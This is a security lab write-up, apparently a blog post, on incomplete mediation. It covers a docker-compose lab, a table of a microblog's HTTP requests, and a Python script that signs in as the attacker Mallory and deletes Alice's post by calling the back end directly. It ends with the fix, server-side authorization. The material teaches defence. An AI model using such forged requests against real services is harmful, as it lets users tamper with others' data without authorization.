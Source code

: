 ```yaml
---
layout: post
title: Incomplete Mediation
category: web_security
author: 'reo'
tags: python seclab docker webapp
mathjax: 
---
```


This is an attack which is easily exploited
if the backend does not properly check the authenticated user
before performing an action.

## Contents
{:.no_toc}

* Content
{:toc}

<br>

***

## Setup

***

We require only the service vulnerable to this attack **microblog**, the target **Alice** and
the attacker **Mallory**

```yaml
version: '3'

services:
  microblog:
    image: # private image
    container_name: microblog
    ports:
      - "8080:80"
    networks:
      channel:
        ipv4_address: 10.0.0.2
        
  alice:
    image: # private image
    container_name: alice
    tty: true
    shm_size: '1gb'
    sysctls:
        - net.ipv6.conf.all.disable_ipv6=1
    networks:
      channel:
        ipv4_address: 10.0.0.3
        
  mallory:
      image: # private image
      container_name: mallory
      tty: true
      restart: always
      volumes:
          - .:/shared
      network_mode: service:microblog
      
  wireshark:
    image: # private image
    container_name: wireshark
    tty: true
    network_mode: service:microblog

networks:
  channel:
    driver: bridge
    ipam:
      config:
        - subnet: 10.0.0.0/24
```

We start the containers with `$ docker-compose up` and open a browser to `http://localhost:8080/`.

Upon the webapp starting, Alice populates it with a post: *Mallory should not be trusted*.

<br>

***

## Observations

***

We can use Wireshark or simply the developer's console in our browser to see the messages being sent.

<!--IMAGE OF DEV CONSOLE!-->

The following table is how each operation is sent to the server

<div class="xscrollable">
<table>
<thead>
  <tr>
    <th>User Action</th>
    <th>Path</th>
    <th>HTTP method</th>
    <th>Form Data</th>
  </tr>
</thead>
<tbody>
  <tr>
    <td>Sign-in</td>
    <td>/signin.php</td>
    <td>POST</td>
    <td>email, password</td>
  </tr>
  <tr>
    <td>Post message</td>
    <td>/post.php</td>
    <td>POST</td>
    <td>msg</td>
  </tr>
  <tr>
    <td>Delete message</td>
    <td>/delete.php</td>
    <td>DELETE</td>
    <td>id</td>
  </tr>
</tbody>
</table>
</div>

<br>

***

## The Attack

***

For this lab, we will have Mallory delete a post made by Alice
despite the fact that the front-end UI doesn't allow them to.

Since there is no back end authentication for which account is performing
the action, mallory simply needs to sign in and make the appropriate request.
Using our table, we see what the server expects from a legitimate deletion.
We can then automate the process

```python
import os, requests
from urllib.parse import urlencode

PROTOCOL = "http"
HOST = "10.0.0.2"
PORT = "80"
BASE = PROTOCOL + "://" + HOST + ":" + PORT

# Mallory's credentials
mallory = {
    'email': 'mallory@example.com',
    'password': 'pass4mallory'
}

# start a session
with requests.Session() as s:
     # sign-in as mallory (POST request)
     res = s.post(BASE + '/signin.php', data=mallory)
     # delete Alice's message (DELETE request)
     res = s.delete(BASE + '/delete.php', data={'id': '3'})
```

<br>

***

## Conclusion

***

Running our script, we see that Alice's first message has been deleted as expected
despite the fact that Mallory should not have these permissions.
This can be solved quite easily by authenticating the the correct user is in fact logged
in in the back end. A rule of thumb is that the front-end should not be trusted since
it is user-controlled.

When you're done, don't forget to [clean up](/crypto/2020/10/08/05-lab.html#docker-cleanup)
after Docker.

{% include lab_credits.md %}

